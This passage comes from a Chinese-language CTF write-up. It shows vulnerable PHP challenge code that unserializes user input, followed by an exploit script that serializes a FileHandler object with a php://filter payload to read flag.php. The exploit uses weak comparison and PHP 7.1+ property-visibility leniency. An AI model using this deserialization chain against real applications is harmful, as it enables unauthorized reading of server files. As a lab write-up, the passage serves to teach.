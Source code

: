 ```php
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

接下来，按照思路写利用链，　进入process函数后，如果op=="1"，则进入write函数，若op=="2"，则进入read函数，否则输出报错，可以看出来这里op与字符串的比较变成了弱类型比较==

```
<?php
class FileHandler {

    protected $op=2;
    protected $filename= "php://filter/read=convert.base64-encode/resource=flag.php";
    protected $content;


}
$a = new FileHandler();
echo urlencode(serialize($a));
//unserialize(serialize($a));
```

即可读取flag，利用了php7.1+对属性不敏感

> 需要注意的是，$op,$filename,$content三个变量权限都是protected，而protected权限的变量在序列化的时会有%00*%00字符，%00字符的ASCII码为0，就无法通过上面的is_valid函数校验

# 朱雀组
